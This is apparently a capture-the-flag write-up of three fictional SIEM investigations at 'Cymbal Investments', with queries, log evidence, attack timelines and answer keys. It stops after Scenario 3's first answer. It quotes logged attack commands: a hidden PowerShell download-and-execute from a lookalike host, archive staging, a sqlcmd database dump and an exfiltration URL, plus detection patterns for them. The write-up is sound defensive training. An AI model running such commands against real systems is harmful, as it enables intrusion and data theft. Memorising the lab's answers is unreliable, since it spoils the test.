# Cymbal Investments SecOps CTF

Three scenarios, one SIEM (Google SecOps), one fictional company (Cymbal Investments). This is how I worked through each case: what I searched, what I saw, how I decided, and where I was less than certain.

> **Conventions used throughout**
> - Times in **UTC (Z)** come from the raw event (`UtcTime`, `published`, or the epoch seconds). The SecOps timeline view showed everything **one hour later** than UTC in this lab (e.g. a Sysmon event at 19:54:00Z appeared as `20:54:00` in the timeline). If your search window comes back empty, check this first.
> - Epoch math: `1792090150` = 2026-10-15 18:49:10Z. Everything else is an offset from that.
> - All case data lives on **2026-10-15**. Searches with a relative time range ("last 24h") pull in unrelated `Demoverse` sample data from late October and never find the case events. I lost a lot of time to this.
> - Lab credentials and the sample flag in my notes are deliberately left out of this write-up.

# Scenario 1: Deceptive Click (Investigation)

**Premise:** Case "PowerShell Download And Execute" lands in my queue after a Curated Detection fires on a Denver endpoint. I need the initial entry point and the attacker's goal.

### Q1. Compromised Denver endpoint

**Answer: `CYM-DEN-W10-042.cymbal.corp`**




I recreated the detection logic in UDM search: a script host spawning PowerShell with download-and-execute strings.

```
metadata.event_type = "PROCESS_LAUNCH" AND
principal.process.file.full_path = /wscript\.exe|cscript\.exe/ nocase AND
target.process.file.full_path = /powershell\.exe/ nocase AND
target.process.command_line = /iwr|iex|downloadstring/ nocase
```

That returned `CYM-DEN-W10-042.cymbal.corp`, used by `marcus.vance` (Global Marketing, 10.240.32.115).

The command line behind it:

```
powershell.exe -w Hidden -c "iwr -usebasicparsing https://static.cdn-updater-distribution.net/assets/d27e15eb.png)
  -OutFile C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe; Start-Process ...d27e15eb.exe"
```

The parent is `wscript.exe "C:\Users\marcus.vance\Downloads\ChromeSetup.js"`. Two tells: the payload is an `.exe` disguised with a `.png)` URL, and the loader is a JavaScript file named like a Chrome installer. That is the FAKEUPDATES (SocGholish) pattern from the GTI malware profile.

### Q2. Compromised blog that referred the malicious update

**Answer: `marketingtrends-insider.com`**




I found the dropper first:

```
principal.hostname = "CYM-DEN-W10-042.cymbal.corp" AND target.file.full_path = /ChromeSetup/ nocase
```

Sysmon event 11 (`98418`): `C:\Users\marcus.vance\Downloads\ChromeSetup.js` created by `explorer.exe` at **19:07:55Z**. I then pivoted to web proxy logs for the user's IP (`principal.ip = "10.240.32.115" AND metadata.log_type != "WINDOWS_SYSMON"`) and looked at the minutes just before 19:07:55:

At **19:07:00Z** (Zscaler `9841285257713970001`) Marcus loaded `https://marketingtrends-insider.com/wp-content/themes/theme/assets/js/jquery.min.js`. The site is categorized "Blogs", sits behind Cloudflare, and the file is a theme asset. FAKEUPDATES works by injecting malicious JavaScript into compromised WordPress sites, and that is exactly the kind of file it modifies. It was the only blog-category site in the user's traffic right before the dropper landed, 55 seconds ahead.

**Caveat:** the event I pasted doesn't include a `referral_url` field, so I'm inferring the referrer from timing and category rather than reading it from the download request. If the platform rejects it, search proxy logs for the `.zip` download from `cdn-updater-distribution.net` and read `network.http.referral_url`.

### Q3. Target process ID of the hollowed `svchost.exe`

**Answer: `624`**


Sysmon event 8 (`98428`, **19:29:00Z**, tagged **T1055.012 Process Hollowing**):

- Source: `C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe` (PID 6124)
- Target: `C:\Windows\System32\svchost.exe`, **TargetProcessId = 624**, running as `NT AUTHORITY\SYSTEM`

The "secondary payload" and the SYSTEM process are both named in the question, and the event matches them exactly. Note the source PID (6124) is a different number; the question asks for the *target*.

### Q4. SPN requested in the Kerberoasting attack

**Answer: `MSSQLSvc/CYM-DB-01.cymbal.corp:1433`**




I searched the domain controller's Kerberos service-ticket events from the victim's IP:




```
metadata.product_event_type = "4769" AND principal.ip = "10.240.32.115"
```

Event `1098421` (about 20:00:52Z) on `CYM-DC-01.cymbal.corp`:

- Requested by `marcus.vance` from 10.240.32.115
- `target.application = "MSSQLSvc/CYM-DB-01.cymbal.corp:1433"` (the full SPN)
- **`TicketEncryptionType = 0x17`**, which is **RC4**, and `TicketOptions = 0x40810000`
- Target SID ends in `-1088`

RC4 is the classic Kerberoasting indicator: modern accounts should negotiate AES, and attackers ask for RC4 because it's quick to crack offline. A marketing user requesting a SQL Server service ticket is also unusual. The `target.user.userid = "1433"` field is a parser quirk (it split the SPN on the colon); the SPN itself is in `target.application`.



### Q5. Account used for lateral movement

**Answer: `svc_backup`**

The Kerberoasted ticket's SID ends in `-1088`. I searched the file server for activity by someone who was not the victim and not a machine account:

```
principal.hostname = /CYM-FS-01/ nocase AND
principal.user.userid != "marcus.vance" AND
principal.user.userid != /\$$/
```

Events on `CYM-FS-01.cymbal.corp` run as **`svc_backup`**, whose Sysmon `UserID` is `S-1-5-21-...-1088`, the same RID as the ticket's target. That links the Kerberoasted account to the lateral movement. The parent is `wsmprovhost.exe` (WinRM), the same remoting method as in the other cases.

I need to flag a trap here. There is another user, `sarah.jenkins`, whose events appear in the same search (an `explorer.exe` -> `powershell.exe` launch of `nightly_backup.ps1` at 21:10:50Z). That is routine admin activity and a distractor. The SID match is what decides it.

### Q6. Zip archive staged on the file server

**Answer: `Financial_Audit_2026.zip`**




Three events on `CYM-FS-01` show the staging as it happened (all `svc_backup`):

| Time (UTC) | Sysmon | Event |
|---|---|---|
| 20:20:50 | 45102 | `cmd.exe /c "dir C:\Shares\Finance_Shares\Q3_Audits\"` (discovery, T1083), parent `wsmprovhost.exe` |
| 20:27:20 | 45105 | `Compress-Archive -Path C:\Shares\Finance_Shares\Q3_Audits\ -DestinationPath C:\Windows\Temp\Financial_Audit_2026.zip` (T1560.001) |
| 20:33:50 | 45108 | File creation of `C:\Windows\Temp\Financial_Audit_2026.zip` (T1074, Data Staged) |

The archive is written to `C:\Windows\Temp`, a staging location, not back into the share.

### Deceptive Click: attack chain

```
19:07:00  Marcus browses a compromised marketing blog (marketingtrends-insider.com)
19:07:55  Fake Chrome update ChromeSetup.js lands in Downloads
          wscript.exe runs it; PowerShell downloads d27e15eb.exe (disguised as a .png))
19:29:00  d27e15eb.exe hollows svchost.exe (PID 624) -> SYSTEM
          Domain reconnaissance
20:00:52  Kerberoast: RC4 ticket for MSSQLSvc/CYM-DB-01.cymbal.corp:1433
          Hash cracked offline -> svc_backup credentials
20:20:50  svc_backup WinRM onto CYM-FS-01, lists Finance_Shares\Q3_Audits
20:27:20  Compress-Archive -> C:\Windows\Temp\Financial_Audit_2026.zip
20:33:50  Archive written (data staged, ready to exfiltrate)
```

### Answers

| # | Answer |
|---|---|
| 1 | `CYM-DEN-W10-042.cymbal.corp` |
| 2 | `marketingtrends-insider.com` |
| 3 | `624` |
| 4 | `MSSQLSvc/CYM-DB-01.cymbal.corp:1433` |
| 5 | `svc_backup` |
| 6 | `Financial_Audit_2026.zip` |

## Scenario 2: OAuth Heist (Threat Hunting, SHINYHUNTERS)

**Premise:** A GTI bulletin on SHINYHUNTERS lands in Emerging Threats. I need to find the identity compromise and the full scope.

### Q1. Phishing domain that received the credential POST

**Answer: `sso-cymbal-portal.com`**





I started with the one user whose activity looked odd. A search on `principal.user.email_addresses = "elena.rostova@cymbal-investments.com"` gave me a clean timeline:

| Time (UTC) | Event |
|---|---|
| 18:28:00 | Normal Okta SSO from her Denver workstation `CYM-DATA-WS-007` (10.240.12.65), Chrome 124 on Windows |
| 18:31:10 | Visit to `intranet.cymbal.corp` (normal) |
| 18:41:00 / 18:41:55 | Two hits to **`sso-cymbal-portal.com`** |
| 18:47:50 | Okta SSO from **157.131.172.74**, a Mac with Chrome 143 |
| 18:49:10 | `user.mfa.factor.activate` (the alert) |

The domain is a lookalike of Cymbal's own SSO and shows up twice, right before a login from a different device. Two requests fit a GET of the login page followed by a POST of credentials. Within a minute of the second one the attacker was in.

**Honest caveat:** I never saw the POST itself (`network.http.method = "POST"`). I'm inferring it from the timing and the domain. The other domains in my results (`signin.accounts-gooqle.com`, `signin.office365x24.com`) belong to other users and are background phishing noise from the shared dataset, not this case.

### Q2. First permanently deleted MFA alert email

**Answer: `Okta: A new MFA factor was added`**


The attacker's Okta login (18:47:50Z) came from IP 157.131.172.74, geolocated to Chicago by Okta but with the IP-intel record showing **NordVPN on Cloudflare (AS13335)** and `tunnels: {"anonymous":true}`. The Okta event's own summary reads *"User enrolled rogue device factor from anonymized proxy."* The new factor was a macOS device, `fp_8a92f019b7`.

Persistence and cover:

1. **19:01:00Z**: Google Workspace `token / authorize` for an app named **ToogleBox Recall** (`918237461928-tooglebox-recall.apps.googleusercontent.com`) with scopes `https://mail.google.com/` and `gmail.modify`. That scope lets an app delete mail permanently. Note the source IP is now **23.234.119.110** (tzulo, Texas), the attacker's proxy infrastructure, not the Okta VPN address.
2. Two alert emails then appear in Gmail logs for Elena:
   - `Okta: A new MFA factor was added` (log ID `98124018295`)
   - `Security alert: New macOS device registered to your account` (log ID `98124018296`)

I picked the Okta email because it has the lower log ID, and the Okta enrolment is the event that generated the alert.

**Caveat:** the two email events share an identical ingestion timestamp (a replay artifact), so I'm ordering them by log ID and by logic, not by a real delivery time. I never saw explicit delete events. If the platform rejects this answer, the other subject is the alternative.

### Q3. Sensitive document located and downloaded

**Answer: `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf`**




I pivoted on the attacker IP. The query:

```
metadata.product_name = "drive" AND metadata.product_event_type = "item_download" AND principal.ip = "23.234.119.110"
```

returned log `98124018305` at 19:31:30Z. The file name is in **`target.resource.name`**. (I first looked at `target.file.full_path`, which is the wrong field for Drive events; Drive puts it in the resource name.) A Drive `search` event from the same IP at 19:27:50Z has no query text, but it is the attacker hunting for something, and a file called "Database Architecture and Service Accounts" is exactly what you would want if the plan is to reach a database.

### Q4. Privileged service account used against the database server

**Answer: `svc_dbadmin`**




Query:

```
principal.hostname = "CYM-DATA-WS-007" AND metadata.event_type = "USER_LOGIN" AND principal.user.userid != "elena.rostova"
```

This returned a Windows **4624** logon at 19:55:05Z:

- Account: `svc_dbadmin`
- Source: Elena's workstation, 10.240.12.65
- Logon type 3 (network), NTLM
- Intermediary host: `CYM-DB-01.cymbal.corp`

Credentials from the stolen PDF, used from the compromised workstation, aimed at the DB server. An Okta event at 20:15 (UI time) showing `Ssms.exe` launched from `explorer.exe` on the same workstation fits too.

### Q5. Raw database dump

**Answer: `cymbal_cust_q3.bak`**




On `CYM-DB-01` I searched for database tooling in command lines:

```
principal.hostname = "CYM-DB-01.cymbal.corp" AND principal.user.userid = "svc_dbadmin" AND (target.process.command_line = /bcp|sqlcmd|mysqldump|pg_dump|BACKUP|SELECT.*INTO OUTFILE/ nocase)
```

Sysmon event 1 (log `64104`, 19:57:50Z) shows:

```
sqlcmd.exe -S localhost -E -Q "BACKUP DATABASE [CymbalWealthMaster]
  TO DISK='C:\ProgramData\MSSQL\Backup\cymbal_cust_q3.bak' WITH FORMAT, COMPRESSION=OFF"
```

The parent is `wsmprovhost.exe`, which is WinRM / PowerShell remoting. So the attacker was running commands remotely from the workstation. `COMPRESSION=OFF` matches the question's word "raw".

### Q6. Exfiltration URL

**Answer: `http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst`**





This one took four steps:

1. **Archive step.** Sysmon `64112` at 20:21:20Z: `zstd.exe -3 -T0 -o C:\ProgramData\cymbal_q3_exfil.tar.zst ...cymbal_cust_q3.bak`. Now I knew the archive name.
2. **Network connection.** Sysmon event 3 (`64120`, 20:57:40Z): `powershell.exe` (PID 6140) connects to **142.11.200.188:8888**, a hosting provider (AS54290), tagged T1048. This gave IP and port, but no path.
3. **Searching by the IP.** `target.ip = "142.11.200.188" AND metadata.event_type = "NETWORK_HTTP"` returned a **Zscaler** proxy event (20:58:00Z): an HTTP **POST**, 200 response, about **485 MB sent**, from `svc_dbadmin` at 10.240.12.100.
4. `target.url` on that event gave the full path.

My earlier guess for the URL was `/cymbal_q3_exfil.tar.zst`. That was wrong. The real path has `/upload/` in it. Lesson: don't submit an inferred URL; get the proxy event.

### OAuth Heist: attack chain

```
18:41  Elena visits lookalike SSO page (sso-cymbal-portal.com), submits credentials
18:47  Attacker logs into Okta via NordVPN (157.131.172.74)
18:49  Attacker enrols a rogue macOS MFA factor
19:01  Attacker authorizes "ToogleBox Recall" OAuth app (gmail.modify) from 23.234.119.110
 ...   Alert emails purged from Elena's inbox
19:27  Drive search; 19:31 downloads the DB architecture PDF
19:55  svc_dbadmin network logon from Elena's workstation to CYM-DB-01
19:57  sqlcmd BACKUP DATABASE -> cymbal_cust_q3.bak
20:21  zstd compresses it to cymbal_q3_exfil.tar.zst
20:57  PowerShell opens TCP to 142.11.200.188:8888
20:58  ~485 MB POSTed to /upload/cymbal_q3_exfil.tar.zst
```

### Answers


| # | Answer |
|---|---|
| 1 | `sso-cymbal-portal.com` |
| 2 | `Okta: A new MFA factor was added` |
| 3 | `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf` |
| 4 | `svc_dbadmin` |
| 5 | `cymbal_cust_q3.bak` |
| 6 | `http://142.11.200.188:8888/upload/cymbal_q3_exfil.tar.zst` |


## Scenario 3: Rogue Synthesis (AI Misuse)

**Premise:** A GTI bulletin on AI-enabled malware, which calls an LLM at runtime to write its own code. My job is to find the initial compromise and the CI/CD target.

### Q1. Developer who queried the model

**Answer: `alex.chen`**

